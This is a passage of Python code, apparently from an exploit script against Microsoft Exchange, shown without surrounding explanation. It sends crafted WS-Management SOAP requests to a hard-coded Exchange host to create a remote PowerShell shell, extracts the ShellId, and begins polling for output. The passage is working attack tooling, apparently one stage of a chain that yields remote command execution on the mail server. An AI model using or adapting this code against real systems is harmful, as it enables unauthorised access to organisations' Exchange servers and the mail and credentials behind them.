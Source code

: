 ```python
	creationXml = CreationXML(sessionCapability, initRunspacPool).serialize()

	data = '''<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd">
	        <s:Header>
	            <a:To>https://exchange16.domaincorp.com:443/PowerShell?PSVersion=5.1.19041.610</a:To>
	            <w:ResourceURI s:mustUnderstand="true">http://schemas.microsoft.com/powershell/Microsoft.Exchange</w:ResourceURI>
	            <a:ReplyTo>
	                    <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
	            </a:ReplyTo>
	            <a:Action s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/09/transfer/Create</a:Action>
	            <w:MaxEnvelopeSize s:mustUnderstand="true">512000</w:MaxEnvelopeSize>
				<a:MessageID>uuid:{MessageID}</a:MessageID>
				<w:Locale xml:lang="en-US" s:mustUnderstand="false" />
				<p:DataLocale xml:lang="en-US" s:mustUnderstand="false" />
				<p:SessionId s:mustUnderstand="false">uuid:{SessionId}</p:SessionId>
				<p:OperationID s:mustUnderstand="false">uuid:{OperationID}</p:OperationID>
				<p:SequenceId s:mustUnderstand="false">1</p:SequenceId>
				<w:OptionSet xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" s:mustUnderstand="true">
					<w:Option Name="protocolversion" MustComply="true">2.3</w:Option>
				</w:OptionSet>
				<w:OperationTimeout>PT180.000S</w:OperationTimeout>
	        </s:Header>
	        <s:Body>
			<rsp:Shell xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" Name="WinRM10" >
				<rsp:InputStreams>stdin pr</rsp:InputStreams>
				<rsp:OutputStreams>stdout</rsp:OutputStreams>
				<creationXml xmlns="http://schemas.microsoft.com/powershell">{creationXml}</creationXml>
			</rsp:Shell>
	        </s:Body>
	</s:Envelope>'''.format(OperationID=OperationID, MessageID=MessageID, SessionId=SessionId, creationXml=creationXml)
	res = sendPostRequest(data)
	if res.status_code == 200:
		doc = xml.dom.minidom.parseString(res.text);
		elements = doc.getElementsByTagName("rsp:ShellId")
		if len(elements) == 0:
			print_error_and_exit("create_powershell_shell failed with no ShellId return", res)
		ShellId = elements[0].firstChild.nodeValue
		print ("[+] Got ShellId success")
		return ShellId
	else:
		print_error_and_exit("create_powershell_shell failed", res)

def receive_data(SessionId, ShellId):
	print ("[+] Receive data util get RunspaceState packet")
	MessageID = uuid.uuid4()
	OperationID = uuid.uuid4()
	data = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd">
	<s:Header>
		<a:To>https://exchange16.domaincorp.com:443/PowerShell?PSVersion=5.1.19041.610</a:To>
		<w:ResourceURI s:mustUnderstand="true">http://schemas.microsoft.com/powershell/Microsoft.Exchange</w:ResourceURI>
```